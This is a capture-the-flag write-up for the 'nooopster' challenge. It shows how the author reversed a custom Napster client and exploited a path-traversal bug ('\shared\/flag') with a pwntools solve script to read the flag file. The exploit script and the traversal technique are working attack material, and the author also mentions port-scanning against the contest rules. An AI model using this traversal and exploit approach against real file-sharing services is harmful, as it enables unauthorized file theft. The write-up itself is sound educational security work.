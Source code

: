 # nooopster

**Category**: Pwn, Rev \
**Points**: 115 (74 solves)

## Challenge

I don't remember the exact description, but it was something like "Let's share
files like it's 1999".

Attachments:
- `nooopster.vpn`
- `openvpn.shared.key`

## Overview

We're given an OpenVPN config and key:
```
dev tun
secret openvpn.shared.key
ifconfig 192.168.5.2 192.168.5.1
remote nooopster.challenges.ooo 1999 tcp-client
verb 9
```

Using OpenVPN 2 we can connect like so
```
openvpn --config nooopster.ovpn
```

Based on the OpenVPN config we know the server is up at `192.168.5.1`. Though
using automated scanners are against the CTF rules, I didn't know what else to
do so I just ran nmap on it:
```
PORT     STATE SERVICE         VERSION
7070/tcp open  napster         MLDonkey multi-network P2P client
8888/tcp open  sun-answerbook?
```

After wasting an hour trying to figure out how to connect, I eventually asked
the challenge author what the intended service was. Turns out it's
[Napster](https://en.wikipedia.org/wiki/Napster) (haha because the challenge is
called nooopster, duh), which is some music sharing service popular in 1999.

Luckily Ubuntu 16.04 still has a Napster client in the official repos:
```dockerfile
FROM ubuntu:16.04
RUN apt-get update && apt-get install nap
CMD /bin/bash
```

Then we can connect like so:
```
nap -s 192.168.5.1:8888
/join #chat
```

![c.png](c.png)

Ok, let's check out his files
```
/browse nooopster
```

![f.png](f.png)

We see about 200 MP3 files (all of them are Rickrolls) and one file called
`nooopster`. Downloading it, we can see that it's an ELF binary.

After opening it in Ghidra, we can see that it's a custom Napster client that
the `nooopster` bot is presumably using. Our goal is to pwn his client.

## Solution

The `nooopster` client has all mitigations enabled so getting RCE probably
isn't the intended solution since the challenge is categorized as "easy". Since
the client has some file sharing functionality, the goal is probably to get
arbitrary file read.

Here's what I found after reversing it in Ghidra:
- It connects to port 8888 of the IP supplied in `argv[1]`
- It checks if the nickname `nooopster` has been taken on the server
- If not, it does `pthread_create` to host a file server on port 7070 in the
  background
- It lists the files in `./shared` and sends the filenames to the Napster server
- Then it polls the Napster connection with a timeout of 10 seconds,
  repeating the same four messages over and over again
- It also checks for download requests and responds appropriately according to
  the [Napster spec](http://opennap.sourceforge.net/napster.txt)

There were only two places where files were read:
1. The file server running on an port 7070
2. A weird `fopen` call in `main`. After playing around for a while, it seemed
   like the `fopen` was unreachable, so I don't know what it was even there for.

Since I suck at static analysis, I switched to GDB after I realized that if I
changed the nickname the client used, I could run it without any issues.

Turns out the bug was in this `parse_filepath()` function. The filepath needs
to start with `\shared\blah` and `parse_filepath()` just returns `blah`.
However it doesn't check for any funny business so we can just do
`\shared\/flag` and it will return `/flag`.

Solve script:
```python
import pwn
import time
from enum import IntEnum


def send(msg: bytes, type: int):
    p = pwn.p16(len(msg)) + pwn.p16(type) + msg
    io.send(p)
    res = io.clean(timeout=0.5)
    print(f"[*] Response: {res}")


class Type(IntEnum):
    LOGIN = 2
    JOIN_CHANNEL = 0x190
    PUBLIC_MSG = 0x192
    DOWNLOAD_REQUEST = 0xCB


# We need to request a download before the file server on port 7070 will let us
# download anything
io = pwn.remote("192.168.5.1", 8888)
send(b'qxxxb wmtidxal 0 "nap v1.5.4" 4', Type.LOGIN)
send(b"#chat", Type.JOIN_CHANNEL)
send(b"#chat hello", Type.PUBLIC_MSG)
send(r'nooopster "\shared\nooopster"'.encode(), Type.DOWNLOAD_REQUEST)

io = pwn.remote("192.168.5.1", 7070)
io.send(r'GETqxxxb "\shared\/flag" 0')
io.interactive()
```

Output:
```
$ python3 solve.py
[+] Opening connection to 192.168.5.1 on port 8888: Done
[*] Response: b'\x0b\x00\x03\x00anon@(none)\x14\x00m\x02VERSION opennap 0.44\r\x00m\x02SERVER (none)-\x00m\x02There have been 2 connections to this server.\x07\x00\xd6\x001 202 0'
[*] Response: b'\x05\x00\x95\x01#chat\x0f\x00\x98\x01#chat qxxxb 0 4\x15\x00\x98\x01#chat nooopster 202 0\x05\x00\x99\x01#chat#\x00\x9a\x01#chat Welcome to the #chat channel.'
[*] Response: b'\x11\x00\x93\x01#chat qxxxb hello'
[*] Response: b'N\x00\xcc\x00nooopster 17148096 7070 "\\shared\\nooopster" 00000000000000000000000000000000 0'
[+] Opening connection to 192.168.5.1 on port 7070: Done
[*] Switching to interactive mode
123OOO{M4573R_0F_PUPP375}
```

## Timeline

- `Saturday 03:00 PM - 04:00 PM`
  - Start challenge
  - Waste time with different OpenVPN versions to get the VPN work
  - Finally realize OpenVPN 2 from the Ubuntu repos works just fine
- `Saturday 04:00 PM - 05:00 PM`
  - Scan ports on server, find 7070 and 8888 and 8889
  - Try MLDonkey on port 7070 because that's what nmap tells me it is
  - Give up and ask challenge author what service it is. Turns out it's Napster
    on port 8888
  - Get `nap` client from Ubuntu 16.04 repos and connect
  - Find about 200 songs (all Rickrolls) and one binary called `nooopster`
- `Saturday 05:00 PM - 08:45 PM`
  - Start reversing `nooopster` in Ghidra, not really understanding what was
    going on
  - Use WireShark on `nap` client. Manage to figure out some basics of the protocol
  - Realize that goal is probably to achieve arbitrary file read
  - Find two places where that's possible
- `Saturday 08:45 PM - 09:45 PM`
  - Dinner + break
- `Saturday 09:45 PM - 11:59 PM`
  - Find the client-server protocol [spec](http://opennap.sourceforge.net/napster.txt)
  - Finally am able to understand Ghidra's disassembly thanks to that
- `Sunday 12:00 AM - 02:00 AM`
  - Figure out that if I change the username used by the `nooopster` binary, I
    can run it and connect it to the server
  - Dynamic reversing in GDB
- `Sunday 02:00 AM`
  - Find bug on the file server on port 7070
  - Get the flag
